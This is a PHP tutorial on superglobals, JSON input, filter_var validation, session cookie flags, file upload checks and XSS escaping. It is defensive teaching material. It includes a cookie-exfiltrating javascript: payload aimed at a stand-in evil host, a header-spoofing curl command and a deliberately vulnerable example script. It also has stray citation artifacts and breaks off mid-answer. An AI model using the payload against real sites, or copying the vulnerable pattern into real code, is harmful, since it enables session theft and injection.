

---
tags:
  - php
  - superglobals
  - http
  - sessions
  - xss
  - data-filtering
---

# Superglobals, HTTP, Templating & Data Filtering in PHP

#### TL;DR (Quick Revision)

**PHP Web Request & Output Lifecycle** = **9 built-in Superglobal associative arrays** (`$_GET`, `$_POST`, `$_SERVER`, `$_COOKIE`, `$_SESSION`, `$_FILES`, `$_ENV`, `$_REQUEST`, `$GLOBALS`) automatically populated per HTTP request, combined with **`php://input` + `json_decode()`** for JSON APIs, **`filter_var()`** for input validation, **`session_regenerate_id(true)`** for session security, and **`htmlspecialchars()`** for context-aware Cross-Site Scripting (XSS) defense[cite: 1].

> [!abstract] Core Idea
> Unlike standard global variables, **[PHP Superglobals](https://www.php.net/manual/en/language.variables.superglobals.php)** are automatically visible inside **every scope** (functions, methods, closures) without needing the `global` keyword. Before your first line of PHP executes, the SAPI (`php-fpm`) parses the incoming HTTP headers, URL query string, form body, and cookies into these arrays (`$_GET`, `$_POST`, `$_COOKIE`, `$_SERVER`, `$_FILES`)[cite: 1]. Because every byte inside these arrays is controlled by the client, **[PHP: The Right Way — Data Filtering](https://phptherightway.com/#data_filtering)** enforces a strict rule: **Validate/Filter on Input (`filter_var`), Escape on Output (`htmlspecialchars`)**[cite: 1].

> [!question] Why Master Superglobals, HTTP Lifecycle & Filtering?
>
> - **Understand Why `$_POST` Is Empty on JSON Requests**: PHP only populates `$_POST` for `application/x-www-form-urlencoded` and `multipart/form-data` bodies ([`$_POST` Manual](https://www.php.net/manual/en/reserved.variables.post.php)). When a React/Fetch frontend sends `Content-Type: application/json`, `$_POST` is `[]` and you **must** read `file_get_contents('php://input')`!
> - **Prevent Stored & Reflected XSS**: Knowing the exact flags for [`htmlspecialchars($str, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8')`](https://www.php.net/manual/en/function.htmlspecialchars.php) stops attackers from breaking out of single-quoted HTML attributes[cite: 1].
> - **Stop Session Fixation & Cookie Theft**: Configuring `HttpOnly`, `Secure`, and `SameSite=Lax/Strict` flags on cookies and calling [`session_regenerate_id(true)`](https://www.php.net/manual/en/function.session-regenerate-id.php) on login prevents session hijacking.
> - **Block Host Header & IP Spoofing**: Knowing why `$_SERVER['HTTP_X_FORWARDED_FOR']` and `$_SERVER['HTTP_HOST']` can be forged by any client prevents authentication and password-reset poisoning bugs.

#### Quick Reference Table: The 9 PHP Superglobals & Modern HTTP Alternatives

| Superglobal / Stream                                                            | What It Contains                                     | Populated Automatically?                                                                               | Critical Security / Engine Gotcha & Official Docs                                                                                                                                                                                               |
| :------------------------------------------------------------------------------ | :--------------------------------------------------- | :----------------------------------------------------------------------------------------------------- | :---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **[`$_GET`](https://www.php.net/manual/en/reserved.variables.get.php)**         | URL query parameters (`?page=2&tag=php`)             | **Yes** (All values are `string` or `array`!)                                                          | Passing `?page[]=2` makes `$_GET['page']` an **`array`**, crashing functions expecting `string`!                                                                                                                                                |
| **[`$_POST`](https://www.php.net/manual/en/reserved.variables.post.php)**       | HTML Form POST data                                  | **Only** for URL-encoded & multipart forms                                                             | **Empty (`[]`)** for `application/json` payloads! Read `php://input` for JSON APIs.                                                                                                                                                             |
| **`php://input`**                                                               | Raw HTTP request body stream                         | Read via `file_get_contents('php://input')`                                                            | Standard way to read JSON payloads before passing to `json_decode(..., true, 512, JSON_THROW_ON_ERROR)` ([PHP Streams](https://www.php.net/manual/en/wrappers.php.php)).                                                                        |
| **[`$_SERVER`](https://www.php.net/manual/en/reserved.variables.server.php)**   | Server env, request method, path & HTTP headers      | **Yes** (`HTTP_*` keys come from client headers)                                                       | Any key starting with `HTTP_` (like `HTTP_HOST`, `HTTP_USER_AGENT`) is **100% client-forged**!                                                                                                                                                  |
| **[`$_COOKIE`](https://www.php.net/manual/en/reserved.variables.cookies.php)**  | Cookies sent by client in `Cookie:` header           | **Yes**                                                                                                | Calling `setcookie()` does **not** update `$_COOKIE` until the **next** HTTP request!                                                                                                                                                           |
| **[`$_SESSION`](https://www.php.net/manual/en/reserved.variables.session.php)** | Server-side per-user session state                   | **No** (Requires [`session_start()`](https://www.php.net/manual/en/function.session-start.php) first!) | File-based sessions lock the session file during execution; call `session_write_close()` early if needed.                                                                                                                                       |
| **[`$_FILES`](https://www.php.net/manual/en/reserved.variables.files.php)**     | Uploaded file metadata (`tmp_name`, `error`, `size`) | **Yes** (On `multipart/form-data` uploads)                                                             | Never trust `$_FILES['f']['type']` or `['name']`! Verify MIME via [`finfo_file()`](https://www.php.net/manual/en/function.finfo-file.php) and move via [`move_uploaded_file()`](https://www.php.net/manual/en/function.move-uploaded-file.php). |
| **[`$_ENV`](https://www.php.net/manual/en/reserved.variables.environment.php)** | OS environment variables                             | Depends on `variables_order` in `php.ini`                                                              | Often empty if `E` is omitted from `variables_order`; [`getenv('KEY')`](https://www.php.net/manual/en/function.getenv.php) works reliably.                                                                                                      |
| **[`$_REQUEST`](https://www.php.net/manual/en/reserved.variables.request.php)** | Merged `$_GET` + `$_POST` (+ `$_COOKIE`)             | **Yes**                                                                                                | **Avoid in modern code!** Allows attackers to override GET/POST parameters via query or cookie collisions.                                                                                                                                      |

---

## The Learning Concept

### What Problem Does It Solve?

In web applications, three common mistakes with Superglobals and HTTP responses lead directly to crashes and security breaches:

1. **Assuming `$_GET['id']` Is Always a String & Echoing It Unescaped (Type Error + XSS)**: If a user visits `/profile.php?name=<script>alert(1)</script>`, echoing `$_GET['name']` directly triggers Reflected XSS[cite: 1]. Worse, if an attacker visits `/profile.php?name[]=hack`, PHP parses `name[]` into an **`array`**, so passing `$_GET['name']` to `trim()` or `htmlspecialchars()` under `strict_types=1` throws an uncaught `TypeError`!
2. **Reading JSON Payloads from `$_POST`**: Expecting `$_POST['email']` to exist when a frontend SPA sends `fetch('/api/login', { body: JSON.stringify(...) })`.
3. **Forgetting `exit` After a Redirect Header**: Calling `header('Location: /login');` does **not** stop script execution! Without `exit;`, PHP executes the rest of the protected page and sends the confidential HTML body right along with the `302` redirect header!

Look at this **`// BAD`** legacy PHP script demonstrating all three vulnerabilities:

```php
<?php
// BAD - Missing session security flags, open to array TypeError, XSS,
// and missing exit after header('Location: ...')!

session_start();

// BUG 1: header('Location: ...') does NOT stop PHP from executing the rest of the file!
if (empty($_SESSION['user_id'])) {
    header('Location: /login.php');
    // Missing exit! An attacker using curl -i sees the entire admin page HTML below!
}

// BUG 2: If user requests ?search[]=foo, $_GET['search'] is an ARRAY, crashing trim()!
// BUG 3: Echoing raw user input directly into HTML causes Cross-Site Scripting (XSS)!
$search = isset($_GET['search']) ? trim($_GET['search']) : '';
echo "<h1>Results for: " . $search . "</h1>";
```

**Why this fails:** First, `header()` merely queues an HTTP response header; the Zend Engine keeps running every line below it unless you explicitly call `exit;`. Second, PHP's query parser automatically converts any parameter ending with `[]` (`?search[]=1`) into a PHP `array`. Third, echoing unescaped user input lets attackers execute arbitrary JavaScript in victims' browsers[cite: 1].

Now look at the **`// GOOD`** modern **PHP 8.4/8.5 + _PHP: The Right Way_** solution:

```php
<?php

declare(strict_types=1);

// GOOD - Hardened session cookies, strict filter_input(), XSS-safe e() helper, and exit after redirect!

// 1. Start session with strict cookie security flags (HttpOnly, Secure, SameSite, Strict Mode)
if (session_status() === PHP_SESSION_NONE) {
    session_start([
        'use_strict_mode' => 1,      // Rejects uninitialized/attacker-supplied session IDs!
        'cookie_httponly' => true,   // Blocks JavaScript document.cookie access (XSS protection)
        'cookie_secure'   => true,   // Only transmits cookie over HTTPS
        'cookie_samesite' => 'Lax',  // Mitigates Cross-Site Request Forgery (CSRF)
    ]);
}

// 2. Always terminate immediately with exit after a Location redirect header!
if (!isset($_SESSION['user_id'])) {
    header('Location: /login.php', response_code: 302);
    exit;
}

// 3. Dedicated HTML Output Escaping Helper (PHP: The Right Way standard)
function e(string $raw): string
{
    // ENT_QUOTES escapes BOTH " and '; ENT_SUBSTITUTE replaces invalid UTF-8 sequences safely
    return htmlspecialchars($raw, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8');
}

// 4. Safely extract a scalar string even if attacker passes ?search[]=array_attack!
$rawSearch = $_GET['search'] ?? '';
$search    = is_string($rawSearch) ? trim($rawSearch) : '';

echo '<h1>Results for: ' . e($search) . '</h1>' . PHP_EOL;
```

---

### How PHP Implements the HTTP Request Lifecycle, JSON APIs & Output Buffering

> [!tip] 4 Core Mechanics of PHP's Web SAPI Engine
>
> 1. **Query & Body Parsing Traps (`.` to `_` Conversion & `[]` Arrays)**:
>    Because legacy PHP once had a feature called `register_globals` (removed in PHP 5.4 — [PHP: The Right Way](https://phptherightway.com/#register_globals)) that turned query keys into `$variables`, PHP **still silently converts dots (`.`) and spaces (` `) in incoming `$_GET`, `$_POST`, and `$_COOKIE` keys into underscores (`_`)** ([PHP External Variables Manual](https://www.php.net/manual/en/language.variables.external.php#language.variables.external.dot-in-names))! A query parameter `?user.name=valay` arrives in PHP as `$_GET['user_name']`!
> 2. **Reading JSON Request Bodies (`php://input`) & PHP 8.3+ [`json_validate()`](https://www.php.net/manual/en/function.json-validate.php)**:
>    For modern JSON REST APIs:
>    - Read the raw request stream via `$rawJson = file_get_contents('php://input');`.
>    - In **PHP 8.3+**, if you just need to check whether a string is valid JSON before storing or forwarding it without allocating memory for a decoded array/object, call [`json_validate($rawJson)`](https://www.php.net/manual/en/function.json-validate.php).
>    - To decode JSON into an associative array safely, always pass `associative: true` and `flags: JSON_THROW_ON_ERROR` to [`json_decode()`](https://www.php.net/manual/en/function.json-decode.php) (by default, `json_decode()` returns `null` on invalid JSON instead of throwing an exception!)[cite: 1].
> 3. **HTTP Headers & PHP 8.4 [`http_get_last_response_headers()`](https://www.php.net/releases/8.4/en.php#http_get_last_response_headers)**:
>    - **Sending Status & Headers**: Use [`http_response_code(201)`](https://www.php.net/manual/en/function.http-response-code.php) and [`header('Content-Type: application/json; charset=utf-8')`](https://www.php.net/manual/en/function.header.php) **before** any output is echoed[cite: 1].
>    - **PHP 8.4 Upgrade for Outbound HTTP Wrapper Headers**: Historically, making an outbound HTTP request with `file_get_contents('https://...')` created a magic local variable `$http_response_header` in the current scope. **PHP 8.4 deprecates `$http_response_header`** in favor of explicit functions [`http_get_last_response_headers()`](https://www.php.net/manual/en/function.http-get-last-response-headers.php) and [`http_clear_last_response_headers()`](https://www.php.net/manual/en/function.http-clear-last-response-headers.php)!
> 4. **Output Buffering (`ob_start()` / `ob_get_clean()`) for Native PHP Templating**:
>    As shown in **[PHP: The Right Way — Templating](https://phptherightway.com/#templating)**, calling [`ob_start()`](https://www.php.net/manual/en/function.ob-start.php) tells PHP to capture all subsequent `echo` and HTML output into an internal memory buffer instead of sending it to the browser immediately. Calling [`ob_get_clean()`](https://www.php.net/manual/en/function.ob-get-clean.php) returns that captured HTML as a `string` and clears the buffer—allowing you to render native `.php` view templates into variables or wrap them inside layout files cleanly!

#### Full Runnable Example

Run this script via `php 09_http_filtering_templates.php` to see `filter_var()` input validation, JSON API decoding/encoding with `JSON_THROW_ON_ERROR`, and a complete Output-Buffered Native Template Engine (`ob_start` / `ob_get_clean`) with XSS escaping[cite: 1]:

```php
<?php

declare(strict_types=1);

// 1. Safe HTML Output Escaper (Context-aware UTF-8 XSS prevention)
function e(string|int|float $value): string
{
    return htmlspecialchars((string) $value, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8');
}

// 2. PHP: The Right Way — Data Filtering & Validation with filter_var()
function validateRegistrationPayload(array $input): array
{
    $errors = [];

    // Validate Email using FILTER_VALIDATE_EMAIL (returns filtered string or false)
    $rawEmail = is_string($input['email'] ?? null) ? trim($input['email']) : '';
    $email    = filter_var($rawEmail, FILTER_VALIDATE_EMAIL);
    if ($email === false) {
        $errors[] = 'Invalid email address format.';
    }

    // Validate Age within strict range [18..120] using FILTER_VALIDATE_INT + options
    $age = filter_var($input['age'] ?? null, FILTER_VALIDATE_INT, [
        'options' => ['min_range' => 18, 'max_range' => 120],
    ]);
    if ($age === false) {
        $errors[] = 'Age must be an integer between 18 and 120.';
    }

    $bio = is_string($input['bio'] ?? null) ? trim($input['bio']) : '';

    return [
        'valid'  => $errors === [],
        'errors' => $errors,
        'data'   => ['email' => $email, 'age' => $age, 'bio' => $bio],
    ];
}

// 3. Simulating an incoming JSON API Request Body (normally read from php://input)
$simulatedJsonBody = '{"email": "valay@example.com", "age": "22", "bio": "<script>alert(\'XSS\')</script>CyberSec & Backend"}';

// PHP 8.3+ fast JSON syntax pre-check:
if (json_validate($simulatedJsonBody)) {
    // Decode as associative array and throw JsonException on error
    $payload = json_decode($simulatedJsonBody, associative: true, flags: JSON_THROW_ON_ERROR);
    $result  = validateRegistrationPayload($payload);
}

// 4. Native PHP Template Renderer using Output Buffering (ob_start / ob_get_clean)
function renderProfileCard(array $userData): string
{
    ob_start(); // Capture all output below into an internal buffer instead of printing!
    ?>
    <div class="card" data-email="<?= e($userData['email']) ?>">
        <h2>Age: <?= e($userData['age']) ?></h2>
        <p>Bio: <?= e($userData['bio']) ?></p>
    </div>
    <?php
    return trim((string) ob_get_clean()); // Returns captured HTML string and closes buffer
}

if ($result['valid']) {
    echo "--- Rendered XSS-Safe HTML Template ---" . PHP_EOL;
    echo renderProfileCard($result['data']) . PHP_EOL . PHP_EOL;

    echo "--- JSON API Response ---" . PHP_EOL;
    // JSON_UNESCAPED_UNICODE keeps ₹ / emojis readable; JSON_HEX_TAG prevents </script> breakout in inline JSON
    echo json_encode($result['data'], JSON_THROW_ON_ERROR | JSON_UNESCAPED_UNICODE) . PHP_EOL;
}
```

**Output:**

```
--- Rendered XSS-Safe HTML Template ---
<div class="card" data-email="valay@example.com">
        <h2>Age: 22</h2>
        <p>Bio: &lt;script&gt;alert(&#039;XSS&#039;)&lt;/script&gt;CyberSec &amp; Backend</p>
    </div>

--- JSON API Response ---
{"email":"valay@example.com","age":22,"bio":"<script>alert('XSS')</script>CyberSec & Backend"}
```

---

### Visual Diagram: PHP HTTP Request Input, Filtering & Output Lifecycle



---

### Key Terminology (Syntax Decoder)

1. **[`filter_var($value, $filter, $options)`](https://www.php.net/manual/en/function.filter-var.php) & [`filter_input()`](https://www.php.net/manual/en/function.filter-input.php) ([PHP: The Right Way — Data Filtering](https://phptherightway.com/#data_filtering))**:
   Built-in C-level data validation and sanitization engine:
   - **Validation Filters (`FILTER_VALIDATE_*`)**: Checks if `$value` adheres to a strict format and returns the **typed value** (e.g., `int` for `FILTER_VALIDATE_INT`) on success, or **`false` on failure**!
     - `FILTER_VALIDATE_INT` (supports `min_range`, `max_range` options)
     - `FILTER_VALIDATE_FLOAT`
     - `FILTER_VALIDATE_EMAIL`
     - `FILTER_VALIDATE_URL`
     - `FILTER_VALIDATE_IP` (supports `FILTER_FLAG_IPV4`, `FILTER_FLAG_NO_PRIV_RANGE`)
     - `FILTER_VALIDATE_BOOL` (returns `true` for `"1"`, `"true"`, `"on"`, `"yes"`; `false` for `"0"`, `"false"`, `"off"`, `"no"`; and `null` on failure when `FILTER_NULL_ON_FAILURE` is passed).
   - **PHP 8.1+ Deprecation of `FILTER_SANITIZE_STRING`**: Never use the old `FILTER_SANITIZE_STRING` (deprecated in PHP 8.1 and removed in PHP 9.0 because it mangled valid user text instead of properly escaping on output!). Validate input strictly, store the true raw text in your database (via PDO prepared statements), and escape on output with `htmlspecialchars()`[cite: 1]!
     Syntax: `$port = filter_var($rawPort, FILTER_VALIDATE_INT, ['options' => ['min_range' => 1, 'max_range' => 65535]]);`

2. **[`htmlspecialchars($string, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8')`](https://www.php.net/manual/en/function.htmlspecialchars.php) (XSS Defense)**:
   Converts the 5 HTML control characters into safe HTML entities so the browser renders them as literal text instead of executing `<script>` tags or breaking out of attributes[cite: 1]:
   - `&` $\rightarrow$ `&amp;`
   - `<` $\rightarrow$ `&lt;`
   - `>` $\rightarrow$ `&gt;`
   - `"` $\rightarrow$ `&quot;`
   - `'` $\rightarrow$ `&#039;` (or `&apos;` in HTML5)
     _(Note: Since **PHP 8.1+**, `ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML401` is finally the default flag mask for `htmlspecialchars()`, escaping single quotes `'` by default! However, passing `ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8'` explicitly remains best practice)._
     Syntax: `<?= htmlspecialchars($comment, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8') ?>`

3. **[`json_encode()`](https://www.php.net/manual/en/function.json-encode.php) & [`json_decode()`](https://www.php.net/manual/en/function.json-decode.php) with `JSON_THROW_ON_ERROR`**:
   - By default, `json_encode()` and `json_decode()` fail **silently** (returning `false` or `null` and storing the error code in `json_last_error()`).
   - Passing **`JSON_THROW_ON_ERROR`** (PHP 7.3+) forces both functions to throw a catchable **[`JsonException`](https://www.php.net/manual/en/class.jsonexception.php)** immediately if malformed UTF-8, recursion, or invalid JSON syntax is encountered!
   - In `json_decode($json, associative: true, depth: 512, flags: JSON_THROW_ON_ERROR)`, setting `associative: true` converts JSON objects `{...}` into PHP associative arrays `['k' => 'v']` instead of `stdClass` objects.
     Syntax: `$data = json_decode($rawBody, associative: true, flags: JSON_THROW_ON_ERROR);`

4. **[`setcookie(string $name, string $value, array $options)`](https://www.php.net/manual/en/function.setcookie.php) (PHP 7.3+ Array Options Syntax)**:
   Sends a `Set-Cookie` HTTP response header to the browser. Always use the modern associative options array instead of the legacy 7-positional-argument signature:

   ```php
   setcookie('remember_token', $token, [
       'expires'  => time() + 86400 * 30,
       'path'     => '/',
       'domain'   => 'example.com',
       'secure'   => true,     // HTTPS only
       'httponly' => true,     // No JS document.cookie access
       'samesite' => 'Strict', // 'Strict' or 'Lax'
   ]);
   ```

5. **[`session_start()`](https://www.php.net/manual/en/function.session-start.php) & [`session_regenerate_id(true)`](https://www.php.net/manual/en/function.session-regenerate-id.php)**:
   - `session_start()` reads the session ID cookie (default `PHPSESSID`), loads the serialized session data from the server's session handler (disk or Redis) into `$_SESSION`, and saves any changes to `$_SESSION` automatically when the request ends[cite: 1].
   - **`session_regenerate_id(true)`**: **Mandatory immediately after a user logs in or changes privilege level!** It generates a brand-new random session ID cookie and deletes the old session file (`true`), preventing **Session Fixation** attacks.
     Syntax: `session_regenerate_id(delete_old_session: true);`

> [!important] Key Rules to Remember
>
> - **Never Trust `$_SERVER['HTTP_*']` Headers for Security** → `$_SERVER['REMOTE_ADDR']` is the actual TCP socket IP address connected to your server, whereas `$_SERVER['HTTP_X_FORWARDED_FOR']` and `$_SERVER['HTTP_CLIENT_IP']` are ordinary HTTP headers that any attacker can spoof via `curl -H "X-Forwarded-For: 127.0.0.1"` unless stripped/overwritten by your own trusted reverse proxy (Nginx/Cloudflare)!
> - **Never Trust `$_FILES['file']['type']`** → `$_FILES['avatar']['type']` simply echoes the `Content-Type` header sent by the client's browser (an attacker uploading `shell.php` can send `Content-Type: image/png`!). Always inspect the actual magic bytes of `$_FILES['avatar']['tmp_name']` using [`(new finfo(FILEINFO_MIME_TYPE))->file($tmpPath)`](https://www.php.net/manual/en/class.finfo.php)!
> - **`htmlspecialchars()` Only Protects HTML Body & Quoted Attributes!** → Putting `<?= e($userUrl) ?>` inside `<a href="<?= e($userUrl) ?>">` does **not** stop `javascript:alert(1)`! Why? Because `javascript:alert(1)` contains zero `<`, `>`, `"`, `'`, or `&` characters! Always validate URLs with `filter_var($url, FILTER_VALIDATE_URL)` and verify `str_starts_with($url, 'https://')` or `'http://'`.

---

## Edge Case Analysis (Traps & Security Gotchas)

### 1. The Array Parameter Injection Attack (`?username[]=admin` TypeError / Bypass)

- **Problem**: When PHP parses a URL query string (`?id=10`) or form body, if an attacker appends square brackets to any parameter name (`?id[]=10` or `username[]=admin`), PHP populates `$_GET['id']` or `$_POST['username']` as a **nested `array`** instead of a `string`! In PHP 8+, passing that `array` into `trim()`, `strlen()`, `preg_match()`, `htmlspecialchars()`, or a typed function expecting `string` triggers an **uncaught fatal `TypeError` (500 Internal Server Error)** (and in legacy code or NoSQL/query builders, passing an array can alter query logic!).
- **Fix**: Never assume `$_GET['key']` or `$_POST['key']` is a `string` just because `isset($_GET['key'])` is `true`! Always verify `is_string($val)` (or use `filter_input(INPUT_GET, 'key', FILTER_DEFAULT, FILTER_REQUIRE_SCALAR)`).

```php
<?php

declare(strict_types=1);

// Simulated attacker query: /login.php?username[]=admin
$_GET['username'] = ['admin'];

// BAD - isset() is true, but passing an array to trim() throws a Fatal TypeError!
// $user = isset($_GET['username']) ? trim($_GET['username']) : '';

// GOOD - Helper function that guarantees a scalar string or returns default!
function queryString(string $key, string $default = ''): string
{
    $val = $_GET[$key] ?? $default;
    return is_string($val) ? trim($val) : $default;
}

var_dump(queryString('username', 'guest')); // string(5) "guest" (Attack neutralized!)
```

### 2. The `javascript:` URI & Unquoted Attribute XSS Bypass

- **Problem**: Developers often assume wrapping a variable in `htmlspecialchars()` makes it 100% immune to XSS anywhere inside an HTML file. There are **two HTML contexts where `htmlspecialchars()` alone fails**:
  1. **Unquoted HTML Attributes** (`<input value=<?= e($input) ?>>`): An attacker passes `x autofocus onfocus=alert(1)`—which contains zero quotes or `< >` tags—and injects a new event handler attribute!
  2. **`href` / `src` URL Attributes** (`<a href="<?= e($url) ?>">`): An attacker passes `javascript:fetch('https://evil.tld/?c='+document.cookie)`—which contains no `< > "` characters—and executes JS when clicked!
- **Fix**:
  1. Always wrap HTML attributes in double quotes (`value="<?= e($input) ?>"`).
  2. For any user-provided URL in `href` or `src`, validate the scheme with `parse_url($url, PHP_URL_SCHEME)` against an explicit `['http', 'https']` allowlist!

```php
<?php

declare(strict_types=1);

function safeUrl(string $rawUrl): string
{
    $url = trim($rawUrl);
    if (filter_var($url, FILTER_VALIDATE_URL) === false) {
        return '#';
    }
    $scheme = strtolower((string) parse_url($url, PHP_URL_SCHEME));
    // Block javascript:, data:, vbscript: URI schemes!
    if (!in_array($scheme, ['http', 'https'], true)) {
        return '#';
    }
    return htmlspecialchars($url, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8');
}

var_dump(
    safeUrl('javascript:alert(1)'),          // string(1) "#" (Blocked!)
    safeUrl('https://phptherightway.com/')   // string(27) "https://phptherightway.com/"
);
```

### 3. Secure File Upload Validation (`$_FILES`, `finfo`, and `move_uploaded_file`)

- **Problem**: If an upload form checks `$_FILES['avatar']['type'] === 'image/jpeg'` or checks `str_ends_with($_FILES['avatar']['name'], '.jpg')` and saves the file using the user's original filename `$_FILES['avatar']['name']`, an attacker can upload `avatar.php.jpg` or forge `Content-Type: image/jpeg` on a `.php` web shell, or use path traversal (`../../index.php`) in the filename!
- **Fix**:
  1. Check `$_FILES['f']['error'] === UPLOAD_ERR_OK` ([File Upload Error Codes](https://www.php.net/manual/en/features.file-upload.errors.php)).
  2. Inspect the actual binary magic bytes of `$_FILES['f']['tmp_name']` on disk using **[`finfo`](https://www.php.net/manual/en/class.finfo.php)** (`FILEINFO_MIME_TYPE`).
  3. Generate a **completely random server-side filename** (`bin2hex(random_bytes(16)) . '.jpg'`) and move the file using **[`move_uploaded_file()`](https://www.php.net/manual/en/function.move-uploaded-file.php)** (which cryptographically verifies the file was genuinely uploaded via PHP's HTTP POST mechanism).

```php
<?php

declare(strict_types=1);

function processUploadedImage(array $fileInfo, string $uploadDir): string
{
    if (($fileInfo['error'] ?? UPLOAD_ERR_NO_FILE) !== UPLOAD_ERR_OK) {
        throw new RuntimeException('File upload failed with error code: ' . ($fileInfo['error'] ?? -1));
    }

    $tmpPath = (string) $fileInfo['tmp_name'];

    // 1. Inspect actual file magic bytes via finfo (NEVER trust $fileInfo['type']!)
    $finfo    = new finfo(FILEINFO_MIME_TYPE);
    $realMime = $finfo->file($tmpPath);

    $extension = match ($realMime) {
        'image/jpeg' => 'jpg',
        'image/png'  => 'png',
        'image/webp' => 'webp',
        default      => throw new InvalidArgumentException("Disallowed file MIME type: {$realMime}"),
    };

    // 2. Generate a random safe filename (NEVER use $fileInfo['name'] on disk!)
    $safeFilename = bin2hex(random_bytes(16)) . '.' . $extension;
    $destination  = rtrim($uploadDir, '/') . '/' . $safeFilename;

    // 3. Move using move_uploaded_file() (verifies genuine HTTP upload temp file)
    if (!move_uploaded_file($tmpPath, $destination)) {
        throw new RuntimeException('Failed to move uploaded file.');
    }

    return $safeFilename;
}
```

### 4. PHP Session File Locking Bottleneck (`session_write_close()`)

- **Problem**: By default, PHP stores sessions in files (`/var/lib/php/sessions/sess_<id>`). When `session_start()` runs, PHP places an **exclusive OS file lock (`flock`)** on that user's session file until the script finishes! If the user's browser fires 5 concurrent AJAX/Fetch requests to your PHP backend, Requests 2, 3, 4, and 5 will **freeze and queue sequentially** waiting for Request 1 to finish and release the session file lock!
- **Fix**: As soon as you finish reading or writing `$_SESSION` in a slow request (before making slow cURL API calls or heavy exports), call **[`session_write_close()`](https://www.php.net/manual/en/function.session-write-close.php)**! That saves the session data and releases the lock immediately so concurrent requests from the same user can run in parallel.

---

## Going Deeper (Intermediate -> Advanced & _PHP: The Right Way_ Integration)

### 1. PHP 8.4 `request_parse_body()` (Multipart Uploads on `PUT` / `PATCH`!)

Historically, PHP only automatically parsed `multipart/form-data` and `application/x-www-form-urlencoded` bodies into `$_POST` and `$_FILES` when the HTTP method was **`POST`**. If a REST API client sent a `PUT` or `PATCH` request with `multipart/form-data`, `$_POST` and `$_FILES` remained completely empty!
**[PHP 8.4 introduces `request_parse_body(?array $options = null): array`](https://www.php.net/releases/8.4/en.php#request_parse_body)** ([Official Manual](https://www.php.net/manual/en/function.request-parse-body.php)), which parses `multipart/form-data` or URL-encoded request payloads natively in C for **any HTTP method (`PUT`, `PATCH`, `DELETE`)** and returns `[$_POST, $_FILES]` directly:

```php
<?php

declare(strict_types=1);

// PHP 8.4+: Parse multipart/form-data on PUT or PATCH requests with custom limits!
if (($_SERVER['REQUEST_METHOD'] ?? 'GET') === 'PUT') {
    // Returns a 2-element tuple: [0 => parsed $_POST array, 1 => parsed $_FILES array]
    [$putFields, $putFiles] = request_parse_body([
        'max_file_uploads' => '5',
        'post_max_size'    => '10M',
    ]);
}
```

### 2. _PHP: The Right Way_ & PSR-7 / PSR-15 — Why Frameworks Wrap Superglobals in `Request` & `Response` Objects

Why don't Laravel (`Illuminate\Http\Request`) or Symfony (`Symfony\Component\HttpFoundation\Request`) controllers read `$_GET`, `$_POST`, and `$_SERVER` directly?

1. **Superglobals Are Mutable Global State**: Any code anywhere can write `$_GET['id'] = 999;`, making unit testing multiple simulated HTTP requests inside a single PHPUnit test process messy.
2. **PSR-7 (`ServerRequestInterface` & `ResponseInterface`)**: Standardizes HTTP messages as **immutable value objects** ([PSR-7 Specification](https://www.php-fig.org/psr/psr-7/)).
3. **Under the Hood**: At the very start of `public/index.php`, Symfony and Laravel call `Request::createFromGlobals()`, which reads `$_GET`, `$_POST`, `$_COOKIE`, `$_FILES`, `$_SERVER`, and `php://input` **once**, wraps them inside an object-oriented `Request` instance, injects it into your Controller, and at the end calls `$response->send()` (which executes `header()` and `echo` for you!).

---

## Interview Corner

### Common Questions & Concise Answers

**Q1: Why is `$_POST` empty when a frontend client sends a `fetch()` / `axios` POST request with `Content-Type: application/json`, and how do you read the payload in PHP?**
**A:** PHP only populates `$_POST` when the request `Content-Type` is `application/x-www-form-urlencoded` or `multipart/form-data` ([`$_POST` Manual](https://www.php.net/manual/en/reserved.variables.post.php)). To read a raw `application/json` request body, you must read the `php://input` stream using `file_get_contents('php://input')` and decode it with `json_decode($raw, associative: true, flags: JSON_THROW_ON_ERROR)`.

**Q2: What happens if you call `header('Location: /login.php');` without calling `exit;` immediately after it?**
**A:** `header()` only adds the `Location:` HTTP response header to the output header buffer; it does **not** terminate script execution. Without `exit;`, PHP continues executing the rest of the script (potentially running sensitive database mutations or echoing protected HTML content into the HTTP response body, which an attacker can view by ignoring the `302` redirect in `curl` or Burp Suite).

**Q3: Why is `$_SERVER['HTTP_X_FORWARDED_FOR']` unsafe to trust directly for rate-limiting or IP allowlisting?**
**A:** Any `$_SERVER` key beginning with `HTTP_` is populated directly from the client's raw HTTP request headers. An attacker can send `X-Forwarded-For: 127.0.0.1` in their request to spoof any IP address. You must rely on `$_SERVER['REMOTE_ADDR']` (the actual TCP connection IP), and only parse `X-Forwarded-For` if `REMOTE_ADDR` matches the IP of your own trusted reverse proxy / load balancer.

**Q4: How do you securely validate and store an uploaded image file in PHP using `$_FILES`?**
**A:** Never trust `$_FILES['file']['type']` (client-supplied MIME header) or `$_FILES['file']['name']` (client-supplied filename, vulnerable to path traversal and `.php` extension attacks). Instead:

1. Verify `$_FILES['file']['error'] === UPLOAD_ERR_OK`.
2. Inspect the actual binary magic bytes of `$_FILES['file']['tmp_name']` using `(new finfo(FILEINFO_MIME_TYPE))->file($tmpName)`.
